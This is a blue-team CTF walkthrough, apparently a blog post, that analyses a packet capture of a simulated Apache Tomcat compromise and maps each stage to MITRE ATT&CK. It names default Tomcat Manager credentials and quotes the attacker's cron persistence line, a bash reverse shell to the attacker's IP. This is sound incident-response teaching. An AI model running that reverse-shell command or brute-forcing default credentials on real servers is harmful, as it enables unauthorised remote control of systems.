

# 🔐 Tomcat Takeover - Blue Team CTF Walkthrough

## 📝 Overview

In this post, I will walk through my detailed analysis of the [**Tomcat Takeover**](https://cyberdefenders.org/blueteam-ctf-challenges/tomcat-takeover/) lab from CyberDefenders, which simulates an attack on an Apache Tomcat server. This challenge involves investigating suspicious activity using Wireshark to analyze a provided PCAP file. I will demonstrate how to identify malicious activity, track the attacker's methods, and map the findings to the MITRE ATT&CK framework.

This walkthrough covers:
- 🔍 **Scanning behavior**
- 🛠 **Brute-forcing of credentials**
- 💻 **Reverse shell uploads**
- 📌 **Establishing persistence**

By following this guide, you'll gain hands-on experience with network traffic analysis and incident response.

---

## 💼 Challenge Details

- **Provided Evidence**: A single PCAP file (~2MB) containing captured network traffic.
- **Tools Used**: Wireshark, Gobuster, CyberChef for decoding credentials.
- **Objective**: Analyze the PCAP file, identify the attacker’s actions, and answer several investigative questions.

---

## 🕵️‍♂️ Step 1: Initial Reconnaissance - Active Scanning

**Question 1: Identify the Source IP address responsible for initiating scanning behavior.**

After opening the PCAP in Wireshark, the first step was to identify which IP was responsible for the scanning activity. By using `Statistics -> Conversations -> IPv4 Statistics` and sorting by Bytes, I determined that the suspicious IP was `14.0.0.120`.

This IP initiated multiple sequential connections across different ports, indicative of a SYN scan.

🔧 **Wireshark Filter**: `ip.addr == 14.0.0.120 && tcp.port != 8080`

- **MITRE Technique**: [T1595.002 - Active Scanning: Vulnerability Scanning](https://attack.mitre.org/techniques/T1595/002/)

---

## 🌍 Step 2: Geolocating the Attacker

**Question 2: Determine the city from which the attacker’s activities originated.**

Using an IP geolocation service such as [ipgeolocation.io](https://ipgeolocation.io), I was able to geolocate the attacker's IP `14.0.0.120` to a specific city: **Guangzhou**.

---

## 🔑 Step 3: Exploiting Weak Credentials - Valid Accounts

**Question 3: Which port provided access to the web server admin panel?**

From the PCAP file, I identified several open ports, including 80, 443, and 8080. By using `Statistics -> Conversations -> TCP`, I determined that port `8080` was the only one with HTTP traffic.

Filtering for traffic on port `8080`, I discovered that the Tomcat Manager was running on this port.

Filtering with `ip.src == 14.0.0.120 && http` at 18:19:33, I saw a scan with the tool **Gobuster**, which the attacker used to discover the admin panel.

- 🛠 **Tools Identified**: Gobuster for URL enumeration.
- **MITRE Technique**: [T1190 - Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)

---

## 🧰 Step 4: Directory Enumeration - Attack Tools

**Questions 4 & 5: What tools did the attacker use for enumeration? & Which directory associated with the admin panel did the attacker uncover?**

The attacker used **Gobuster** to enumerate the available directories and files on the server. The tool successfully identified the `/manager/html` directory, which provided access to the Tomcat Manager panel.

---

## 🔐 Step 5: Brute-Forcing Credentials - Username and Password

**Question 6: What username and password did the attacker successfully use for authorization?**

Once the attacker found the Tomcat Manager page, they brute-forced the login credentials using default combinations. By analyzing the HTTP streams in Wireshark, I identified multiple failed attempts.

Using several default passwords of the Tomcat Server that you can find online the attacker tried to login:

Finally, the attacker successfully logged in:

The credentials were encoded in Base64 and passed via the `Authorization` header. I used **CyberChef** to decode the Base64 string and recover the plain text credentials.

- 🔓 **Username**: `admin`
- 🔑 **Password**: `tomcat`

- **MITRE Technique**: [T1078 - Valid Accounts](https://attack.mitre.org/techniques/T1078/)

---

## 📁 Step 6: Uploading a Malicious File - Web Shell

**Question 7: What was the name of the malicious file the attacker uploaded?**

After gaining access to the Tomcat Manager, the attacker uploaded a malicious **.war** file at 18:22:14 to establish a reverse shell.

By analyzing the HTTP POST requests, I identified the file name:

- **File Name**: `JXQOZY.war`

The file was successfully uploaded, and the attacker accessed it, resulting in an HTTP `200 OK` response from the server.

- **MITRE Technique**: [T1505.003 - Web Shell](https://attack.mitre.org/techniques/T1505/003/)

---

## 🕒 Step 7: Establishing Persistence

**Question 8: What specific command was scheduled to ensure persistence?**

Once the attacker gained access to the reverse shell, they created a **cron job** to maintain persistence on the server. By following the TCP stream in Wireshark, I observed the cron job creation command:

- **Command**: `* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`

This cron job would establish a reverse shell connection to the attacker's IP every minute, ensuring that the attacker maintained control over the compromised system.

- **MITRE Technique**: [T1053.003 - Scheduled Task/Job: Cron](https://attack.mitre.org/techniques/T1053/003/)

---

## 🏁 Conclusion

The [**Tomcat Takeover**](https://cyberdefenders.org/blueteam-ctf-challenges/tomcat-takeover/) challenge provided a great opportunity to explore a simulated attack on a web server and apply practical skills in analyzing network traffic. By using Wireshark to track scanning, brute-forcing, file uploads, and persistence, I was able to map the attack stages to the MITRE ATT&CK framework.

This lab was an excellent exercise in understanding the attack lifecycle, identifying malicious activities, and applying security measures to mitigate these types of attacks in the real world.

---

### 🔎 MITRE ATT&CK Techniques Used

- **[T1595.002 - Active Scanning: Vulnerability Scanning](https://attack.mitre.org/techniques/T1595/002/)**
- **[T1190 - Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)**
- **[T1078 - Valid Accounts](https://attack.mitre.org/techniques/T1078/)**
- **[T1505.003 - Web Shell](https://attack.mitre.org/techniques/T1505/003/)**
- **[T1053.003 - Scheduled Task/Job: Cron](https://attack.mitre.org/techniques/T1053/003/)**
